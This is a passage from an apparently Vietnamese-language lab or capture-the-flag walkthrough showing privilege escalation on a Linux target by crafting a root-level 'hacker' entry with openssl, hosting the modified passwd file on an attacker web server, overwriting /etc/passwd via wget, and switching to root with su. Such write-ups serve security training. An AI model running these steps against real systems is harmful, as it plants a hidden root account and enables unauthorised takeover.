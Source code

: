 ```
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```

Tiếp theo, sử dụng `openssl` để tạo một salted password hash theo định dạng `passwd` cho người dùng mới là `hacker` có mật khẩu `pass123` và thêm nó vào file local `passwd` như sau:

```
┌──(kali㉿kali)-[~]
└─$ openssl passwd -1 -salt hacker pass123
$1$hacker$zVnrpoW2JQO5YUrLmAs.o1

┌──(kali㉿kali)-[~]
└─$ echo 'hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash' >> passwd

┌──(kali㉿kali)-[~]
└─$ cat passwd                                                                       
root:x:0:0:root:/root:/bin/bash
...
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
```

Với máy chủ web python vẫn đang chạy trên cổng 80, tiếp tục và tải xuống file đã sửa đổi vào mục tiêu, ghi đè lên file `/etc/passwd` của mục tiêu.

```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ wget http://192.168.118.5/passwd -O /etc/passwd
<pp$ wget http://192.168.118.5/passwd -O /etc/passwd
--2021-03-12 08:50:29--  http://192.168.118.5/passwd
Connecting to 192.168.118.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1462 (1.4K) [application/octet-stream]
Saving to: '/etc/passwd'

/etc/passwd         100%[===================>]   1.43K  --.-KB/s    in 0s      

2021-03-12 08:50:29 (224 MB/s) - '/etc/passwd' saved [1462/1462]
```

Bây giờ tất cả những gì cần làm là đăng nhập với tư cách là người dùng mới.

```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ whoami
whoami
clumsyadmin
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ su hacker
su hacker
Password: pass123

root@xposedapi:/home/clumsyadmin/webapp# whoami
whoami
root
root@xposedapi:/home/clumsyadmin/webapp#
```